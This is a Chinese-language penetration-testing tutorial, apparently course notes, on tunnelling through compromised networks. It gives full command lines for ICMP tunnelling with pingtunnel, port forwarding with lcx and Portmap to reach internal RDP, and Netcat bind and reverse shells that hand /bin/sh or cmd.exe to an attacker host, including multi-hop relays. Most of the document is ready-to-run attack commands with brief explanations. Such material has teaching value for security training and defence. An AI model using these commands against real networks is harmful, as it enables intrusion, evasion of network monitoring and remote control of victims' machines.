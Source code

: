 检测 DNS 连通性常用的命令是“nslookup”和“dig”

nslookup 是 windows 自带的 DNS 探测命令

dig 是 linux 系统自带的 DNS 探测命令

#### 案例二 网络层ICMP隧道pingtunnel使用-检测-利用

```shell
# 先检测icmp协议是否利用，如果可以利用，则可以使用ICMP协议建立隧道 
pingtunnel 是把 tcp/udp/sock5 流量伪装成 icmp 流量进行转发的工具
-p ##表示连接 icmp 隧道另一端的机器 IP（即目标服务器）
-lp ##表示需要监听的本地 tcp 端口
-da ##指定需要转发的机器的 IP（即目标内网某一机器的内网 IP）
-dp ##指定需要转发的机器的端口（即目标内网某一机器的内网端口）
-x ##设置连接的密码
Webserver：./ptunnel -x xiaodi  # 构建一个隧道
Hacker xiaodi：./ptunnel -p 192.168.76.150（webserver的外网） -lp(hacker 主机的端口) 1080 -da（目标地址） 192.168.33.33 -dp（目标端口） 3389 -x xiaodi(密码) #转发的 3389请求数据给本地 1080
Hacker xiaodi：rdesktop 127.0.0.1 1080
老版本介绍：https://github.com/f1vefour/ptunnel(需自行编译)
新版本介绍：https://github.com/esrrhs/pingtunnel(二次开发版)
```

#### 案例三 传输层转发隧道Portmap或lcx使用-检测-利用

* Windows：lcx
* Linux：Portmap

```shell
# 两台主机
lcx -slave (中间机)IP 3131 127.0.0.1 3389 //将本地 3389 给中间机的3131端口
lcx -listen 3131 3333 //监听 3131 转发至 3333（中间机）

# 第三台攻击机
# 建立成功后用
rdesktop 192.168.76.143:3333（攻击机，连接的是中间机的ip）
```

#### 案例四 传输层转发隧道Netcat使用-检测-利用 确保nc最新版本

```shell
1.双向连接反弹 shell
正向：攻击连接受害
	受害：		nc -lvvp 1234 -e /bin/sh //linux
			  nc -lvvp 1234 -e c:\windows\system32\cmd.exe //windows
	攻击：     nc 192.168.76.132 1234 //主动连接
反向：受害连接攻击

	攻击：     nc -lvvp 1234
	受害：     nc 攻击主机 IP 1234 -e /bin/sh //linux
			  nc 攻击主机 IP 1234 -e c:\windows\system32\cmd.exe //windows

2.多向连接反弹 shell-配合转发
反向：
	god\Webserver：Lcx.exe -listen 2222 3333
	god\Sqlserver：nc 192.168.3.31 2222 -e c:\windows\system32\cmd.exe
	kali 或本机：nc -v 192.168.76.143 3333

3.相关 netcat 主要功能测试
	端口扫描：nc -v -z 192.168.76.143 1-100
	端口监听：nc -lvp xxxx
	文件传输：nc -lp 1111 >1.txt|nc -vn xx.xx.x.x 1111 <1.txt -q 1
	反弹 Shell：见上
```
